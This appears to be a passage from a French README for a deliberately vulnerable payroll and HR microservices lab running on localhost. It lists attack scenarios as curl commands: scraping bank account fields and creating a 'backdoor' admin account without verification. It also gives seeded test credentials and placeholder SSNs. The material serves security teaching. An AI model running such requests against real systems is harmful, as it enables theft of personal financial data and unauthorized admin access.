 ### Scénario 3: Accès aux comptes bancaires
\`\`\`bash
# Récupérer tous les comptes bancaires
curl http://localhost:3003/payroll | grep -o '"bankAccount":"[^"]*"'
\`\`\`

### Scénario 4: Création d'admin malveillant
\`\`\`bash
# Créer un compte admin sans vérification
curl -X POST http://localhost:3001/users \
  -H "Content-Type: application/json" \
  -d '{"username":"backdoor","password":"secret","role":"admin"}'
\`\`\`

## 📊 Données de Test

### Utilisateurs (Auth Service)
- **admin** / admin123 (role: admin, SSN: 123-45-6789)
- **john.doe** / password (role: employee, SSN: 987-65-4321)
- **jane.smith** / 12345 (role: manager, SSN: 555-12-3456)

### Employés (Employee Service)
1. John Doe - SSN: 987-65-4321, Engineering
2. Jane Smith - SSN: 555-12-3456, HR Manager
3. Bob Johnson - SSN: 111-22-3333, Finance

### Salaires (Payroll Service)
1. John Doe - $95,000 + $10,000 bonus
2. Jane Smith - $85,000 + $8,000 bonus
3. Bob Johnson - $75,000 + $5,000 bonus

## 🔍 Observer les Logs

Les logs montrent toutes les données sensibles en clair:

\`\`\`bash
# Voir les logs en temps réel
docker-compose logs -f

# Logs d'un service spécifique
docker-compose logs -f payroll-service
docker-compose logs -f auth-service
\`\`\`
